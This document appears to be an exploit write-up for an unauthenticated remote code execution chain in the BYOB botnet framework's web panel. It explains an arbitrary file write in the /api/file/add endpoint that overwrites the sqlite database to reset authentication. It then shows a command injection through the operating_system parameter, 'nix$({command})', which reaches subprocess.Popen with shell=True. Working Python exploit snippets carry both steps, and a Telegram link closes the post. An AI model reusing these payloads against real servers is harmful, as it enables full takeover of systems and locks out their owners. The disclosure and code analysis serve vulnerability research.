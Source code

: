 ### BYOB (Build Your Own Botnet) Unauthenticated RCE

This exploit works by spoofing an agent exfiltrating a file to overwrite the sqlite database and bypass authentication.  After authentication is bypassed, a command injection vulnerability is exploited in the payload builder page.

Summary
BYOB (Build Your Own Botnet) is an open-source post-exploitation framework for students, researchers and developers with support for Linux, Windows and OSX systems. With approximately 9,000 stars, it ranks among the most popular post exploitation frameworks on GitHub. While auditing the codebase, I was able to discover an unauthenticated arbitrary file write in an exfiltration endpoint allowing attackers to overwrite the sqlite database on disk and bypass authentication. With authenticated access to the botnet panel, I discovered a command injection in the payload generation page. By chaining these vulnerabilities, remote unauthenticated attackers are able to take full control over the botnet server.

Arbitrary File Write via agent exfiltration endpoint
Reminiscent of the Skywalker in vulnerability in Empire C2 disclosed by @zeroSteiner and re-exploited by AceResponder, BYOB saves exfiltrated files from agents in an insecure manner, allowing attackers to write files anywhere on the filesystem the user who is running the application has the permission to write to. Specifically, BYOB makes use of the os.path.join function, which is well known to create scenarios where directory traversal is possible.

Lets take a look at the code (which I have trimmed down for brevity) for the /api/file/add route, which exists in web-gui/buildyourownbotnet/api/files/routes.py. We can see this route accepts unauthenticated POST requests, and accepts a filename parameter. This filename parameter is passed as the final parameter in the output_path variable, allowing us to take full control over the output_path variable irregardless of previous parameters by passing a full path (ex: filename=/tmp/win.txt). Futhermore, the route accepts a data parameter, which is to be base64-decoded and written to output_path. This gives way to our arbitrary file write.

@files.route("/api/file/add", methods=["POST"])
def file_add():
	"""Upload new exfilrated file."""
	b64_data = request.form.get('data')
	...
	filename = request.form.get('filename')

	# decode any base64 values
	try:
		data = base64.b64decode(b64_data)
	except:
		if b64_data.startswith('_b64'):
			data = base64.b64decode(b64_data[6:]).decode('ascii')
		else:
			print('/api/file/add error: invalid data ' + str(b64_data))
			return
	...
	
	output_path = os.path.join(os.getcwd(), 'buildyourownbotnet/output', owner, 'files', filename)

	# add exfiltrated file to database
	file_dao.add_user_file(owner, filename, session, module)

	# save exfiltrated file to user directory
	with open(output_path, 'wb') as fp:
		fp.write(data)

	return filename
We need to use this arbitrary file write to RCE now. There are a lot of ways to do this but ideally:
- Our path does not rely on the application running with elevated/root permissions (writing to /etc/cron.d)
- Our path relies on system event (login->.bashrc, overwriting app source files and waiting for reload)
- Our path requires no end user interation (adding an XSS payload to an application .js file)

The best way I found to achieve this is to overwrite the sqlite3 database that exists on file to one with empty tables. This resets the application to its initial installation state, and allows us to register an admin user as part of the setup process. We make use of procfs to determine the working directory of the application, from which we can find the location of the database (/proc/self/cwd/instance/database.db). The downside of doing this is the botnets owners will probably notice not being able to login.

This is what overwriting the database and registering a new user looks like in python code:

with open('database.db', 'rb') as f:
	bindata = f.read()
data = base64.b64encode(bindata).decode('ascii')
json_data = {'data': data, 'filename': '/proc/self/cwd/instance/database.db', 'type': "txt", 'owner': "admin", "module": "icloud", "session": "lol"}
headers = {
	'Content-Length': str(len(json.dumps(json_data)))
}
print("[***] Uploading database")
upload_response = session.post(f"{url}/api/file/add", data=json_data, headers=headers)
print(upload_response.status_code)


headers = {
	'User-Agent': user_agent,
	'Content-Type': 'application/x-www-form-urlencoded',
}
data = {
	'csrf_token': register_csrf,
	'username': username,
	'password': password,
	'confirm_password': password,
	'submit': 'Sign Up'
}
print("[***] Registering user   ")
regsiter_response = s.post(f'{url}/register', headers=headers, data=data)
print(regsiter_response.status_code)
Command Injection via payload generation page
The payload generation page accepts a format, operating system and architecture parameter.

meow1

This page will POST to the /api/payload/generate page, which will accept the payloda_format, operating_system, and architecture parameters. These parameters will be put into an options directory and passed to the client.py main() function.

@payload.route("/api/payload/generate", methods=["POST"])
@login_required
def payload_generate():
	"""Generates custom client scripts."""

	# required fields
	payload_format = request.form.get('format')
	operating_system = request.form.get('operating_system')
	architecture = request.form.get('architecture')

	...

	# write dropper to user's output directory and return client creation page
	options = {
		'encrypt': encrypt,
		'compress': compress, 
		'freeze': freeze, 
		'gui': 1, 
		'owner': current_user.username, 
		'operating_system': operating_system, 
		'architecture': architecture
	}

	try:
		outfile = client.main('', '', '', '', '', '', **options)

		...
In the main function, these options are processed and passed to the _dropper() function.

# main
def main(*args, **kwargs):
    """
    Run the generator

    """

    if not kwargs:
	...
    else:

        options = collections.namedtuple('Options', ['host','port','modules','name','icon','pastebin','encrypt','compress','freeze','gui','owner','operating_system','architecture'])(*args, **kwargs)

    ...
    dropper = _dropper(options, var=var, key=key, modules=modules, imports=imports, hidden=hidden, url=stager)

    os.chdir('..')

    return dropper
The _dropper function, which is responsible for generating the dropper, constructs the name variable which is the output path for our generated droppers. We notice that options.operating_system and options.architecture are used in the construction of the name variable. If the name variable ever gets passed to a subprocess.Popen call, we will be able to inject commands. We can see that if options.freeze is set to true (which is the case when you request to generate a binary dropper rather than a .py dropper), the generators.freeze() function will be called.

def _dropper(options, **kwargs):
    # add os/arch info to filename if freezing
    if options.freeze:
        name = 'byob_{operating_system}_{architecture}_{var}.py'.format(operating_system=options.operating_system, architecture=options.architecture, var=kwargs['var']) if not options.name else options.name
    else:
        name = 'byob_{var}.py'.format(var=kwargs['var'])

	...

    name = os.path.join(output_dir, name)

	...

    # cross-compile executable for the specified os/arch using pyinstaller docker containers
    if options.freeze:
        util.display('\tCompiling executable...\n', color='reset', style='normal', end=' ')
        name = generators.freeze(name, icon=options.icon, hidden=kwargs['hidden'], owner=options.owner, operating_system=options.operating_system, architecture=options.architecture)
        util.display('({:,} bytes saved to file: {})\n'.format(len(open(name, 'rb').read()), name))
    return name
In the freeze() function, the operating_system parameter and architecture parameter are passed directly into subprocess.Popen(), without any sanatization or validation whatsoever.

def freeze(filename, icon=None, hidden=None, owner=None, operating_system=None, architecture=None):
    """
    Compile a Python file into a standalone executable
    binary with a built-in Python interpreter

    `Required`
    :param str icon:        icon image filename
    :param str filename:    target filename

    Returns output filename as a string

    """
	...

    # cross-compile executable for the specified os/arch using pyinstaller docker containers
    process = subprocess.Popen('docker run -v "$(pwd):/src/" {docker_container}'.format(
                                src_path=os.path.dirname(path), 
                                docker_container=operating_system + '-' + architecture), 
                                0, None, subprocess.PIPE, subprocess.PIPE, subprocess.PIPE, 
                                cwd=path, 
                                shell=True)
Exploiting this in python code is quite trivial. This completes our unauthenticated RCE chain!

headers = {
	'User-Agent': user_agent,
	'Content-Type': 'application/x-www-form-urlencoded',
}
data = f'format=exe&operating_system=nix$({command})&architecture=amd64'
try:
	# Authenticated session
	s.post(f'{url}/api/payload/generate', headers=headers, data=data, stream=True, timeout=0.0000000000001)
except requests.exceptions.ReadTimeout:
	pass

### Telegram :
Link : https://t.me/neverstare
